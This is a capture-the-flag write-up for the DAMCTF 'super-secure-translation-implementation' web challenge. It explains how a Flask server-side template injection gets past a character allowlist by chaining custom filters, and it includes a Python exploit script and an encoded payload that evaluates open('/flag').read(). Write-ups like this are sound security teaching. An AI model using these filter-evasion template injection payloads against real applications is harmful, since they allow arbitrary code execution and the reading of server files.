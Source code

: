 ```yaml
---
layout: post
title:  "[DAMCTF] super-secure-translation-implementation"
date:   "2021-11-07"
categories: Web, Golf
author: voidPtr
app_img: /assets/posts_images/super-secure-translation-implementation/app.PNG
check_img: /assets/posts_images/super-secure-translation-implementation/check.PNG
filters_img: /assets/posts_images/super-secure-translation-implementation/filters.PNG
payloadBase_img: /assets/posts_images/super-secure-translation-implementation/payloadBase.PNG
payloadFilter_img: /assets/posts_images/super-secure-translation-implementation/payloadFilter.PNG
---
```


The website show us the source code running on the site.  
<figure>
<img src="{{ page.app_img }}" alt="app.py">
</figure>

As we can see, it is possible to request any path as long as it exists and is in the same folder of app.py. 
Moreover, there's a path on the site, "/secure_translate/", where we can pass an argument "payload" and the server will extend the base code with our input. The perfet setup for a Server Side Template Injection.  
The problem is that our input is sanitized with a function "detect_remove_hacks". Looking at the import of this page, that function is in the file check.py. We can just request its source code in the path with "/check.py".  
<figure>
<img src="{{ page.check_img }}" alt="check.py">
</figure>

Here we can see that our input is restricted to a very limited set of characters, and to a given max lenght calculated from an external library ("rctf", imported in limit.py). An admin later told me that this limit is based on the first solve on th platform: in my case it was 161 chars. Painful.  

We need one more step before starting to build the payload: in app.py, before defining the routes, there are some custom filters added to the server for string manipulation as we can see in the comment above. Let's look at those functions in the file filters.py.
<figure>
<img src="{{ page.filters_img }}" alt="filters.py">
</figure>
There are some useful functions to convert a character in its ascii decimal notation and vice-versa, and a function that evaluates an input if it does not contain words from a blacklist, and if its initials 4 characters are not "open" or "eval".

First things first, let's try if we can make a simple template injection. Since we know we are on flask, let's try something that is not forbidden by the detect_remove_hacks() function, for example {{6*6}}.
<figure>
<img src="{{ page.payloadBase_img }}" alt="payloadBase">
</figure>

Perfect, now we are sure that there's a way of making the server do what we want. The question is, how? We have only a bunch of chars to use, and there's not a payload using only that chars. My first answer was to try using ord() and chr() functions (python built-ins). But for some reason the server returns 500 if we try to use built-in functions inside the payload. So it came to my mind the custom filters implemented by filters.py. We can chain them to obtain another character starting from one of the allowed chars. For example, to obtain "a" we could do something like {{("b"|order-1)|ch}}:
<figure>
<img src="{{ page.payloadFilter_img }}" alt="payloadFilter">
</figure>

Now that we know how to obtain an arbitrary character and that we can chain filters, my guess was to craft a payload and pass it to the e() function to evaluate it.
The problem now is the max lenght of the payload of 161 chars.
I wrote a python script to automate the translation of a char to its equivalent in the order|ch chain, and spent many time optimizing it to reduce the number of characters used. This was painful.  

Finally I came up with a payload, but it was of something like 174 chars. The ultimate "golf" of my code to reduce its length was to substitute the order part with its equivalent in number operations, using only the digits in the whitelist (otherwise we should translate them).
For example {{('l'|order+4)|ch}} == {{(111+1)|ch}} == "p".
I've done this manually because the time was almost finished and I didn't had time to automate it, but here's the script to obtain the payload until this last translation.
```python
import requests

TARGET_URL = 'https://super-secure-translation-implementation.chals.damctf.xyz'

previousNotEncoded = True

def findBestEncoding(c, l):
    resList = []
    for allowed in l:
        res = ""
        toAdd = ""
        sign = "+"
        
        toAdd = str(ord(c) - ord(allowed))
        if int(toAdd) < 0:
            sign = "-"
        if toAdd not in l:
            i = int(toAdd)
            if i == 2:
                toAdd = "1"+sign+"1"
            elif i == 3:
                tempSign = "-"
                if sign == "-":
                    tempSign = "+"
                toAdd = "4"+tempSign+"1"
            elif i == 5:
                toAdd = "4"+sign+"1"
            elif i == 7:
                toAdd = "1"+sign+"6"
            elif i == 8:
                toAdd = "4"+sign+"4"
            elif i == 9:
                toAdd = "4"+sign+"4"+sign+"1"
            else:
                toAdd1 = "1" + (sign+"1") * (abs(i)-1)
                atLeast4 = i // 4
                rest4 = i % 4
                toAdd4 = "4" + (sign+"4") * (abs(atLeast4)-1) + (sign+"1") * rest4
                atLeast6 = i // 6
                rest6 = i % 6
                toAdd6 = "6" + (sign+"6") * (abs(atLeast6)-1) + (sign+"1") * rest6
                if len(toAdd4) > len(toAdd6):
                    toAdd = toAdd6
                else:
                    toAdd = toAdd4
                if len(toAdd1) < len(toAdd):
                    toAdd = toAdd1
        res += "('"+allowed+"'|order"+ sign+toAdd+")|ch"
        resList.append(res)
    shortest = min(resList, key=len)
    return shortest


def codeStringEnhanced(s):
    global previousNotEncoded
    allowlist = [
        '"', "'", '(', ')', '{', '|', '}', '*', '+', '-', '1', '4', '6', 'b', 'c', 'd', 'e', 'h', 'l', 'o', 'r', 'u'
    ]
    res = ""
    for c in s:
        if res != "":
            if not previousNotEncoded:
                res += "+"
        if c in allowlist:
            if res == "":
                res += "'"
            if previousNotEncoded:
                res += c
            else:
                res += "'"+c
            previousNotEncoded = True
        else:
            if previousNotEncoded and res != "":
                res += "'+"
            res += findBestEncoding(c, allowlist)
            previousNotEncoded = False
    if previousNotEncoded:
        res += "'"
    res += ")"
    return res


# cmd = 'forbidlist[5]'
# cmd = '"".__class\__'
# cmd = '(eval("globals()[4]"))'
# cmd = '["b","d"]|map("u")'
# cmd = '''(eval("y('id')")'''
# cmd = 'globals()'
cmd = '(open("/flag").read())'
code = codeStringEnhanced(cmd)
payload = "{{"+code+"}}"
payload = payload.replace("'''", '"\'"')

# payloadF1 = "{{(" + code + "|e}}"
codeManual = ''''(o'+(66+44+1+1)|ch+'e'+(66+44)|ch+'("'+(44+1+1+1)|ch+(66+6*6)|ch+'l'+(4*4*6+1)|ch+(66+6*6+1)|ch+'")'+(46)|ch+'re'+(4*4*6+1)|ch+'d())')'''
payloadF1 = "{{(" + codeManual + "|e}}"
payloadF = payloadF1.replace("+", "%2B") # need this to avoid html/url errors
print(payloadF)
print(f"PAYLOAD LENGHT: {len(payloadF1)}")


r = requests.post(TARGET_URL+'/secure_translate/?payload='+payloadF)
print(f"RETURN CODE: {r.status_code}")

if(r.status_code == 200):
    text = r.text.split("<code>")[1].split("</code>")[0].split("<p>")[1].split("</p>")[0]
    text = text.strip()
    print("RESULT:")
    print(text)
else:
    print(r.text)
```
In the code above there are some commands I tried along the way ("cmd" variable).
The final payload is (open("/flag").read()). The external parenthesis are there to avoid the control in the e() filter. Its translations is:
```
{{('(o'%2B(66%2B44%2B1%2B1)|ch%2B'e'%2B(66%2B44)|ch%2B'("'%2B(44%2B1%2B1%2B1)|ch%2B(66%2B6*6)|ch%2B'l'%2B(4*4*6%2B1)|ch%2B(66%2B6*6%2B1)|ch%2B'")'%2B(46)|ch%2B're'%2B(4*4*6%2B1)|ch%2B'd())')|e}}
```
Its lenght is of 142 chars ("%2B" is translated in "+", so it is counted as a single char). Probably there are shorter payloads, but this has done the trick for me. 
Sending it to the server will give us our flag.

```
dam{p4infu1_all0wl1st_w3ll_don3}
```
